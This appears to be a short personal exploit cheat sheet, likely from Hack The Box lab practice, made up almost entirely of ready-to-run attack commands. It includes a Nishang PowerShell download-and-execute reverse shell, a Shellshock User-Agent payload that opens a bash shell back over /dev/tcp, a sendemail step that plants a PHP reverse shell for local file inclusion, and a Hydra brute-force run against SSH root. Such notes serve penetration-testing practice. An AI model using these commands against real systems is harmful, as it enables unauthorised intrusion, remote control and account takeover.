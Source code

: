 # Exploit

## Reverse powershell using Nishang
```
cp ~/post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/HTB/chatterbox/
powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')\""
```

## Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh
```

## LFI
### Send email
```
sendemail -t asterisk@localhost -o message-file=php-reverse-shell.php -u pwnd -s 10.10.10.7:25 -f flame_n@htb.eu
```

## Bruteforce
### Hydra
SSH
```
hydra -l root -P /usr/share/wordslists/metasploit/unix_passwords.txt ssh://192.168.4.4:22 -t 4 -V
```
### scanner/ssh/ssh_login

## https://digi.ninja/blog/when_all_you_can_do_is_read.php
